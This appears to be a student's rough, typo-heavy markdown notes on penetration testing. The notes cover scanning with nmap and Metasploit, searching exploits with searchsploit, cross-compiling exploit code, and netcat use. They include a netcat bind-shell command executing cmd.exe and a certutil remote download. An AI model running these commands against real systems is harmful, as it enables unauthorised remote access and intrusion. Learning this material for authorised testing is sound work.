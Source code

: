 # Intro to Exploitation 
+ Exploitation consit of techniues and tools used to gain a foothgold on a target system
+ Succseful will heavcenly depend on the nature of the quailtiy
+ We still nwws a clearer picture of the exploitation methodlogy and the tolls and techiques involved in the process
+ PTES - methododly standard for pentest
+ Informationm Gathering , Numenration , Exploitation
+ Identif vulenrable services , identify and prepare exploit code
+ gain acess
+ obtain remote access o ntarget system
+ bypass av detection
+ pivot on the other system

# Vulenrability Scanning Overview 
+ Information Gathering and getting OS info and services info
```
nmap -sV -O IP

ls -al /usr/share/nmap/scripts/ | grep banner

nmap -sV --scipt=banner IP

whatis nc

nc IP

searchsploit service 

```

## Vulenrability Scanning with NMAP Script

```
nmap -sV --script=http-enum IP
ls -al /usr/share/nmap/scripts/ | grep name_of_file

nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" IP

```

## Vulnerability Scanning with Metasploit 
```
nmap -sS -sV IP
msfconsole auxiliary/scanner/smb/smb_ms17_010

```
## Search for Publicly Available Exploits 
+ Best sources Exploit-db and Rapid7
+ Exploit DB
+ name_exploit site:exploit-db.com
+ name_exploit site:rapid7.com

## Searching with Exploits with Searchsploits 
```
searchsploit -u
searchsploit servicename
searchsploit servicename serivcenumber
searchsploit -m ID
searchsploit -c servicename #case sensitive
searchsploit -t vsftpd # checks in the title
searchsploit -e "Exact Matches" # checks for the exact title
searchsploit remote windows smb
searchsploit webapps wordpress

searchsploit -w services to show url
```

## Fixing Exploits 
able to find exploit code on your own 
not always trust on metasploit 
```
nmap -sV IP_ADDRESS

```

## Cross Compile 

+ MinGW-w64
+ GCC
+ i686-w64-mingw32-gcc file.c -o exploit
+ i686-w64-mingw32-gcc file.c -o exploit -lws2_32

## Netcat fundamentals 
+ use to read and write data on TCP or UDP
+ Avaialbnle both nix and windows
+ Cleient Moide and then server mode 
```
nc -nv IP PORT
certuil -urlcache -f http://IP/file_name
nc.exe -nlvp PORT > test.txt sending 
nc -nv IP PORT < test.txt file where have 
```
## Bind Shells
+ a bind shell is a type of remote shell where the attacker connects directly to a listenr on a target system.
+ /usr/share/windows-binaries/
+ nc.exe -nlvp PORT -e cmd.exe windows machine
+ nc -nv IP PORT

## Reverse Shells 
+ reverse shell is a type of remote shell where the target connect directly to a listener on the attackers systemn allowinf for execution of commands on the target system

## Reverse Shell Cheat Sheet 
+ Payload of all things Reverse Shellcheat sheet
+ revshells.com

## Exploitation Framework 



































